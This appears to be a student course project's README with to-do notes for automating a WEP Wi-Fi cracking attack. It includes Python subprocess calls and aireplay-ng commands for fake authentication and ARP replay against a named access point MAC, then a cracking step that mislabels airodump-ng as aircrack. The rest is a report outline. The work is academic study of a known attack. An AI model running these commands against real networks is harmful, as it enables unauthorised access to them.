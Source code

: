 # COMP4203 - Project



## Workflow





## To do:

### Implement Key Ranking

Could do this manually or use the algorithm `aircrack-ng` algorithm



### Verify Access Point

Verify that the access point is using the correct mode that enables the attack

```python
# aireplay-ng --fakeauth 0 -a C4:12:F5:7C:7C:0C -h d0:df:9a:8e:42:e9 wlp7s0
fake_auth = subprocess.Popen(
	['aireplay-ng', '--fakeauth 0', f'-a {access_point}', f'-h {source_mac}', iface], 
	stdout = subprocess.PIPE)
```



### Manage ARP Packets

Run the following passively until correct packets are found from the created requests?

```python
# aireplay-ng --arpreplay -b C4:12:F5:7C:7C:0C -h d0:df:9a:8e:42:e9 wlp7s0
arpreplay = subprocess.Popen(['aireplay-ng', '--arpreplay', f'-b {access_point}', f'-h {source_mac}', iface], stdout = subprocess.PIPE)
```



### Start Attack

After everything else is done (right number of packets captured) start cracking...

```python
# aircrack-ng <file_name>
aircrack = subprocess.Popen(['airodump-ng', 'output.cap'], stdout = subprocess.PIPE)
```



### Allow Selecting Any Interface?

Might be able to use 2 interfaces if you are on a wired connection and have a network card I guess... Could make it faster

```python
iface = 'wlan0'
```



### Threadding

Run line 101 happens first, wait until completed

Start line 115 constantly running until IV count reaches threshold, 20k?

Start running line 114

Line 103 constantly running 

Line 106 loop should run until we successfully deauthenticate once



## Report Structure

link to the doc ryan made instead

```
- Title page
    - Title
    - Names
    - Course
    - Date 
  
- Abstract? 

- Table of contents + list of figures + list of tabless...

- Introduction
    - Motivation
    - Purpose
    - Description and domain
    
- Literature review
    - Talk about that paper and how it works...
    
- Design
    - Approach and discuss logic...
    
- Implementation
    - Talk about our specific code
        - Deauth
        - Key ranking
    - Talk about limitations
    
- Results
    - Talk about simulations we ran and discuss results
    - Compare performance against existing paper and against goals

- Conclusion
    - Conclude that the paper was valid

- References

- Appendices
```

